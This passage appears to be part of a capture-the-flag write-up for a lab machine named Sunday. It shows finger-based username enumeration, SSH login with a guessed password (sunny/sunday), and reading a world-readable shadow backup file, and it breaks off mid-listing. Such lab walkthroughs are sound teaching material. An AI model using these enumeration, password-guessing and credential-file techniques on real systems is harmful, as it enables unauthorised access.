 ```
14 results.

10163 queries in 337 seconds (30.2 queries / sec)

```

There’s some garbage in there, but two interesting usernames:

```

sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..

```

Now we can compare the results of finger for a name that exists and one that doesn’t:

```

root@kali# finger 0xdf@10.10.10.76
Login       Name               TTY         Idle    When    Where
0xdf                  ???
root@kali# finger sunny@10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny    sunny                 pts/2            Fri 11:06  10.10.14.5

```

## User Shell - SSH As sunny

With two known accounts, and ssh, it’s worth guessing a few passwords. I always try admin, root, the box name, and any defaults for the application. Turns out sunny/sunday works:

```

root@kali# ssh -p 22022 sunny@10.10.10.76
Password:
Last login: Thu May  3 15:25:35 2018 from 10.10.14.12
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ pwd
/export/home/sunny
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)

```

## Privesc: sunny to sammy

### Find Backup shadow

Inside `/backup` there’s a copy of a `shadow` file that is world readable:

```

sunny@sunday:/backup$ ls -l
total 2
-r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup

sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
```